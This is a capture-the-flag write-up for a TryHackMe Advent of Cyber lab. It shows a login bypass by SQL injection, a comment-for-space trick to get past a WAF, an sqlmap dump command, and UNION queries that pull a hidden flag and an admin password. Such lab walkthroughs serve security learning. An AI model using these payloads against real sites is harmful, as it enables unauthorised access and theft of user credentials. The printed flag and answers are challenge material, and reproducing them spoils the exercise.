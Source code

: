 # Advent of cyber 2 | day 5 | Someone stole Santa's gift list!

> Tal Baraz

-----

For me the ip for the machine was: `10.10.3.234` it'll probably be diffrent for you.

## Question 1
*Without using directory brute forcing, what's Santa's secret login panel?*

after hading to `http://10.10.3.234:8000/` (like the text about suggested) and not seeing anything potentially vulnerable
and after looking at the hint: *The name is derived out of 2 words from this question.*

So I tried:
- /secretpanel
- /secretlogin
- /loginpanel
- /santalogin
- /santasecret

and I finally got it right on:
- /santapanel

I've probably could have guest that the first time by just looking at the length of the answer.

## Question 2
*Visit Santa's secret login panel and bypass the login using SQLi*

No answer needed

We can assume the SQL query looks something like this:
```sql
SELECT username,password FROM users WHERE username='?' and password = '?'
```
The user input goes where there are `?`

I manged to bypass the login form with a simple SQLi: `' or 1=1 --`

So the sql query would look something like this
```sql
SELECT username,password FROM users WHERE username='' or 1=1 --' and password = ''
```
- Note: The challange suggest there's a WAF preventing spaces, but I didn't had this problem in my SQLi
However if they do change it in the future all you need to do is replace every space with a comment:
`' or 1=1 --` -> `'/**/or/**/1=1/**/--`.

## Question 3
*How many entries are there in the gift database?*

again with the same SQLi as before: `' or 1=1 --` I got all the enteries.

I could easily copy the table (Not inculding the headers) into a file i.e giftdb and use `wc` to count the number of lines, like a so:
```bash
cat giftdb | wc -l
```
and so the output is: `22`
- Note: don't forget to put a newline at the end of the last entrey, otherwise `wc` wouldn't count it as a line.

## Question 4
*What did Paul ask for?*

Because we have all the enteries, I just ran:
```bash
cat giftdb | grep -i paul 
``` 
and so the output is: `github ownership`

## Question 5
*What is the flag?*

- Note: I prefer to not use automated tools and so I will try to break in without `sqlmap`.

However I will provide you with the sqlmap command which will lead you to the flag and the admin's password
```bash
sqlmap -p search -r req --tamper=space2comment --dbms sqlite --batch --dump-all
```
- The `req` file is the request I captured with Burpsuite like they showed above. 
---
Moving on I first tried to see if there are really only 2 columns like we can see in the website:

First I Tried to assume how the query looks like:
```
SELECT gift,kid FROM table WHERE kid LIKE '?'
```

and so we can try 
```
' ORDER BY 1,2,3 --
```

and the query will look like this
```sql
SELECT gift,kid FROM table WHERE kid LIKE '' ORDER BY 1,2,3 --'
```
And I got a lovely error message telling me *3rd ORDER BY term out of range - should be between 1 and 2* so I know there's only 2 columns
after that using https://github.com/unicornsasfuel/sqlite_sqli_cheat_sheet this great cheatsheet for sqlite sqli's

I entered:
```
@' UNION SELECT sql,1 FROM sqlite_master WHERE type='table' --
```

And so the query would look something like this:
```sql
SELECT gift,kid FROM table WHERE kid LIKE '@' UNION SELECT sql,1 FROM sqlite_master WHERE type='table' --'
```
- Note: the `@` is not necessary but for a cleaner input I put a charecter that is not in the gifts database.

And got this:

![Table names](./screenshots/table_names.png)

so we can see there are 3 tables:
- sequels: having a title, kid name, and age so we can understand that's the gift datebase on the website so nothing on intrest here.
- hidden_table: as we are looking for the flag the the table has 1 colunm for flag we can assume it's in there
- users: this might be useful for the sixth question when we are looking for the admin's password 

so with a simple sql query I could see the contents of hidden_table:
```
@' UNION SELECT flag,1 FROM hidden_table --
```

And so the query would something like this:
```
SELECT gift,kid FROM table WHERE kid LIKE '@' UNION SELECT flag,1 FROM hidden_table --'
```

![Flag](./screenshots/flag.png)

And so the flag is: `thmfox{All_I_Want_for_Christmas_Is_You}`

## Question 6
*What is admin's password?*

Same as before I will look at the `users` table, like a so:
```
@' UNION SELECT username,password FROM users --
```

And so the query would something like this:
```
SELECT gift,kid FROM table WHERE kid LIKE '@' UNION SELECT username,password FROM users --'
```
And I get just a single entry which is the admin's password:

![Admin password](./screenshots/admin_password.png)

And finaly the admin password is: `EhCNSWzzFP6sc7gB`
